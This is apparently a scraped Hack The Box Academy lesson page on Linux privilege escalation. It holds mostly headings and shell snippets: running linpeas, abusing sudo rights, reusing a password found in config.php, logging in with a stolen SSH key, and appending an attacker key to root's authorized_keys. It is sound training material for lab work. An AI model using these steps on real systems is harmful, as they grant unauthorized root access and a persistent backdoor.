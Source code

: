 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/77/section/844
// Platform Version: V1
// Module ID: 77
// Module Name: Getting Started
// Module Difficulty: Fundamental
// Section ID: 844
// Section Title: Privilege Escalation
// Page Title: Hack The Box - Academy
// Page Number: 11
-->

# Privilege Escalation

**Module Name:** Getting Started **Page Number:** 11

#### 

#### GETTING STARTED

# Privilege Escalation

## PrivEsc Checklists

## Enumeration Scripts

``` shell-session
[!bash!]$ ./linpeas.sh
...SNIP...

Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEYEND:
  RED/YELLOW: 99% a PE vector
  RED: You must take a look at it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)
  LightMangenta: Your username


====================================( Basic information )=====================================
OS: Linux version 3.9.0-73-generic
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
...SNIP...
```

## Kernel Exploits

## Vulnerable Software

## User Privileges

``` shell-session
[!bash!]$ sudo -l

[sudo] password for user1:
...SNIP...

User user1 may run the following commands on ExampleServer:
    (ALL : ALL) ALL
```

``` shell-session
[!bash!]$ sudo su -

[sudo] password for user1:
whoami
root
```

``` shell-session
[!bash!]$ sudo -l

    (user : user) NOPASSWD: /bin/echo
```

``` shell-session
[!bash!]$ sudo -u user /bin/echo Hello World!

    Hello World!
```

## Scheduled Tasks

## Exposed Credentials

``` shell-session
...SNIP...
[+] Searching passwords in config PHP files
[+] Finding passwords inside logs (limit 70)
...SNIP...
/var/www/html/config.php: $conn = new mysqli(localhost, 'db_user', 'password123');
```

``` shell-session
[!bash!]$ su -

Password: password123
whoami

root
```

## SSH Keys

``` shell-session
[!bash!]$ vim id_rsa
[!bash!]$ chmod 600 id_rsa
[!bash!]$ ssh root@10.10.10.10 -i id_rsa

root@10.10.10.10#
```

``` shell-session
[!bash!]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```

``` shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

``` shell-session
[!bash!]$ ssh root@10.10.10.10 -i key

root@remotehost#
```

# 

# 

#### Questions

####